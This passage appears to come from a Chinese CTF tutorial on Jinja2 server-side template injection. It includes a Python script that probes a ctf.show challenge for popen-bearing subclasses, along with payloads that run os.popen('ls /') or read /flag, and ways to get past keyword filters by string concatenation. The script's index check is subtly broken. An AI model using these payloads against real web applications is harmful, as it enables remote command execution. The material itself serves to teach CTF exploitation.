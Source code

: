 但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。  
我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 os.\_wrap\_close ，但也不绝对。由于目标Python环境的不同，我们还需要遍历一下。

#### 寻找 popen 函数执行命令

```
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36'}
for i in range(500):
    url = "http://3d25cf80-d891-4046-86a7-931d17efb62d.challenge.ctf.show/?name=\
        {{().__class__.__bases__[0].__subclasses__()[" + str(i) + "].__init__.__globals__}}"

res = requests.get(url=url, headers=headers)
if 'popen' or 'os._wrap_close' in res.text:
    print(i)
```

如何绕过
----

在做题的时候我们会遇到各种各样的过滤，既然有过滤我们想要执行命令的话就必须绕过，那么如何绕过呢？

### 检查过滤

这里用到一款软件superdic，其可李用以自动生成fuzz字典，然后利用bp抓包工具对注入点进行注入，很容易就可以得到该题过滤了什么。

### 关键字绕过

#### 拼接绕过

我们可以利用“+”进行字符串拼接，绕过关键字过滤

但是往往这种绕过需要一定的条件，返回的要是字典类型的或是字符串格式（即str）的，即payload中引号内的，在调用的时候才可以使用字符串拼接绕过，我们要学会怎么把被过滤的命令放在能拼接的地方。

```
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
```

payload中引号内的，在调用的时候都可以使用字符串拼接绕过。

#### 编码绕过

##### base64编码绕过

对引号内的代码进行base64编码后再后接`.decode('base64')`可以进行绕过
